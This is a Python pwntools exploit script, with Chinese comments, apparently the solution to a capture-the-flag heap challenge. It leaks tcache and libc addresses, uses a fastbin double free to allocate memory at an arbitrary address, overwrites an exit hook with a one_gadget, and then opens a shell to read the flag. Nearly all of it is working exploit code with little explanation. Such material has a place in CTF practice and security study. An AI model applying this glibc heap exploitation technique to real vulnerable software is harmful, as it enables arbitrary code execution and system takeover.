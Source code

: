    ```py
   # ==> 改next申请到environ 泄漏栈地址 
   # ==> 修改next申请到栈上chunk 往栈上写入system("/bin/sh")
   
   one_gadget = [0xeeccc,0xeeccf,0xeecd2]
   
   p.sendlineafter(b"be? :",str(0x40040000).encode())
   debug()
   for i in range(9):
       add(i,b"a")
   for i in range(7):
       free(i)
   #获取tcache基地址
   show(0)
   p.recvuntil(b'Content: ')
   tcache_base = u64(p.recv(5).ljust(8,b"\x00"))
   success("tcache_base==>"+hex(tcache_base))
   
   #泄漏libc地址
   show(539034)
   # show((0x7ff872018ce0-0x7ff871bff010)//8)
   print((0x7ff872018ce0-0x7ff871bff010)//8)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   libc_base = addr - (0x218C60+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   environ_addr = libc_base+libc.sym["environ"]
   success("system_addr==>"+hex(system_addr))
   success("environ_addr==>"+hex(environ_addr))
   
   # 利用fastbin的double free 实现任意地址申请chunk
   free(7)
   free(8)
   free(7)
   for i in range(7):
       add(9,b"a")
   
   # 申请到exit_hook 填入one_gadget
   exit_hook_addr = libc_base + (0x7ffff7e1a6c8-0x7ffff7c00008)
   exit_hook_addr = libc_base + (0x21a6c0)		#tcache会检查堆是否按0x10对齐
   success("exit_hook_addr==>"+hex(exit_hook_addr))
   add(10,fd_glibc32(tcache_base,exit_hook_addr))
   
   add(11,b"a")
   add(12,b"a")
   
   one_gadget_addr = libc_base + one_gadget[0]
   add(13,p64(one_gadget_addr)*2)
   # debug()
   p.sendlineafter(b":",str(4).encode())
   p.sendline(b"cat flag")
   p.interactive()
   ```
